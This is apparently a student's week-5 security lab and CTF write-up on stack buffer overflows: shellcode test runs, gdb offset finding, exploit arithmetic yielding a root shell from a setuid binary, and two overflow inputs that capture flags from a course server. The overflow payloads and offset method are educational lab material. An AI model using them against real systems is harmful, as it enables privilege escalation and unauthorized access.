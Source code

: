 # Work developed in week 5

## **Lab Tasks**

### Task 1

After creating the two binnaries with the Makefile we executed both. The results are listed bellow:

```bash
# Normal bash
seed@8e1ec14993da:~/shellcode$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
seed@8e1ec14993da:~/shellcode$ whoami
seed
seed@8e1ec14993da:~/shellcode$ ps -p $$
  PID TTY          TIME CMD
    1 pts/0    00:00:00 bash
seed@8e1ec14993da:~/shellcode$ env
HOSTNAME=8e1ec14993da
PWD=/home/seed/shellcode
HOME=/home/seed
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
TERM=xterm
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
OLDPWD=/home/seed
```

```bash
# 32-bit binnary
seed@8e1ec14993da:~/shellcode$ ./a32.out
$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ whoami
seed
$ ps -p $$
  PID TTY          TIME CMD
   96 pts/0    00:00:00 sh
$ env
LOGNAME=seed
SHLVL=1
PWD=/home/seed/shellcode
OLDPWD=/home/seed/shellcode
_=/bin/env
```

```bash
# 64-bit binnary
seed@8e1ec14993da:~/shellcode$ ./a64.out
$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ whoami
seed
$ ps -p $$
  PID TTY          TIME CMD
  102 pts/0    00:00:00 sh
$ env
LOGNAME=seed
SHLVL=1
PWD=/home/seed/shellcode
OLDPWD=/home/seed/shellcode
_=/bin/env
```

Both 32-bit and 64-bit binaries have the same output, since they both execute `execve()` call with "_/bin//sh"_ as the first argument, and we can see no environment variables are passed in that call, since the third argument is "_0"_.

### Task 2

This task requeires us to analize the code, which has a buffer overflow vulnerability, and to prepare the compilation for Task 3. The goal is to get acess to the root shell, exploiting that vulnerability, and to do so first we need to turn off the StackGuard and the non-executable stack protections, and give the programn the required permissions, as described in the highlighted _Compilation_ section.

### Task 3

Since we already explored the code and know that we have to perform a buffer overflow, we will start by executing the code in the lab guide to get the buffer’s starting position and the place where the return-address is stored:

```bash
[11/21/21]seed@VM:~/.../tarefa$ touch badfile
[11/21/21]seed@VM:~/.../tarefa$ gdb stack-L1-dbg
gdb-peda$ b bof
Breakpoint 1 at 0x122d: file stack.c, line 11.
gdb-peda$ run
...
Breakpoint 1, bof (str=0xffffcf77 "") at stack.c:11
11	{
gdb-peda$ next
...
14	    strcpy(buffer, str);
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb48
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffcadc
gdb-peda$ quit
```

The _Base Pointer_ is at "0xffffcb48" and the _buffer’s starting position_ is at "0xffffcadc".
Knowing these two values, the shellcode size, and the size written to the buffer, we know that the shellcode must be placed 517 positions from the _buffer’s starting position_ (buffer has 517 size) minus the number of positions the shellcode occupies.

```jsx
start = 517 - len(shellcode);
ret = 0xffffcadc + start;
offset = 0xffffcb48 - 0xffffcadc + 4;
```

We can cause a buffer overflow to override the return address, located above the _Base Pointer_, so the offset value should be the difference between the _buffer’s_ and the _Base Pointer's_ address, plus the _Base Pointer_ size. With this vulnerability we can execute a shell with root privileges and execute any code:

```bash
[11/21/21]seed@VM:~/.../tarefa$ python3 exploit.py
[11/21/21]seed@VM:~/.../tarefa$ ./stack-L1
Input size: 517
# ls -l
total 192
-rwxrwxrwx 1 seed seed   965 Nov 10 04:09 Makefile
-rw-rw-r-- 1 seed seed   517 Nov 21 09:17 badfile
-rwxrwxrwx 1 seed seed   270 Nov 10 04:09 brute-force.sh
-rwxrwxrwx 1 seed seed  1004 Nov 21 09:17 exploit.py
-rw-rw-r-- 1 seed seed    11 Nov 21 09:16 peda-session-stack-L1-dbg.txt
-rwxrwxrwx 1 seed seed 15908 Nov 16 04:56 stack
-rwsr-xr-x 1 root seed 15908 Nov 21 09:15 stack-L1
-rwxrwxr-x 1 seed seed 18688 Nov 21 09:15 stack-L1-dbg
-rwsr-xr-x 1 root seed 15908 Nov 21 09:15 stack-L2
-rwxrwxr-x 1 seed seed 18688 Nov 21 09:15 stack-L2-dbg
-rwsr-xr-x 1 root seed 17112 Nov 21 09:15 stack-L3
-rwxrwxr-x 1 seed seed 20112 Nov 21 09:15 stack-L3-dbg
-rwsr-xr-x 1 root seed 17112 Nov 21 09:15 stack-L4
-rwxrwxr-x 1 seed seed 20112 Nov 21 09:15 stack-L4-dbg
-rwxrwxrwx 1 seed seed  1131 Nov 21 09:13 stack.c
# exit
```

Bellow is our drawn schema, that helped us visualize the stack and addresses, so we know which values to change in _exploit.py_

![Untitled](../images/LB5_stack.png)

## **CTF write-up/resolution**

### Challenge 1

We start by analising the compiled program, checking which protections it has. Using the `checksum` command we can see its architecture (little-endian) and some permissions:

```bash
$ checksec program
  Arch:     i386-32-little
  RELRO:    No RELRO
  Stack:    No canary found
  NX:       NX disabled
  PIE:      No PIE (0x8048000)
  RWX:      Has RWX segments
```

After looking at the code we can answer the questions in moodle:

- The program reads the "_mem.txt" file_
- We can control which file is open if we change the "_meme_file_" variable
- A buffer overflow vulnerability is present. We can cause an overflow of the "_buffer_" variable in the `scanf` call, since the function can read up to 28 characters and _buffer_ only has size of 20.

Therefore, when the input is requested to the user though the `scanf` call, we can write, for example, "aaaaaaaaaaaaaaaaaaaaflag.txt". This way we fill the _buffer_ with the 20 "a"s characters and cause an overflow of "flag.txt" to _meme_file_ variable. Afterwards, in the `fopen` call, the file opened will be "flag.txt" instead of "mem.txt", in the `fgets` call the first 20 characters will be read from that file, and the flag is shown in the console.

```bash
[11/17/21]seed@VM:~/.../Semana5-Desafio1$ nc ctf-fsi.fe.up.pt 4003
Try to unlock the flag.
Show me what you got:aaaaaaaaaaaaaaaaaaaaflag.txt
Echo aaaaaaaaaaaaaaaaaaaaflag.txt
I like what you got!
flag{cd69acd607d4815defdf0c99bd62fc36}
```

### Challenge 2

This Challenge is similar to the above, similar program with the same `checksec` output, except that now these are the variables declared in the start of main():

```c
char meme_file[8] = "mem.txt\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[20];
```

And we have the following if condition, blocking us from seeing the contents of the file:

```c
if(*(long*)val == 0xfefc2122)
```

But it doesn't mitigate the problem completely. To read the flag in the _flag.txt_ file we need to perform a similar buffer overflow to the previous challenge, but now, additionally, we need to make sure that the value in `val` is equal to `0xfefc2122` bytes.With the provided python script, we can change the input to be sent to the following:

```python
r.sendline(b"a"*20 + b"\x22\x21\xfc\xfe" + b"flag.txt")
```

This way, we send 20 characters to fill the buffer, set the correct value of `val` to match the required _if condition_, and finally change the value of `meme_file`. Once again we are successful and get the flag inside _flag.txt_ file. Important to note that we send the "0xfefc2122" in bytes in the reverse order, due to that fact that the architeture is _little endian._ Little-endianness refers to the byte ordering where the least significant byte is stored first. So in this case, if we have the 4-byte value of "0xfefc2122" we would store it in memory, in the _val_ buffer, in the following way: "22 21 fc fe" (\x22\x21\xfc\xfe).
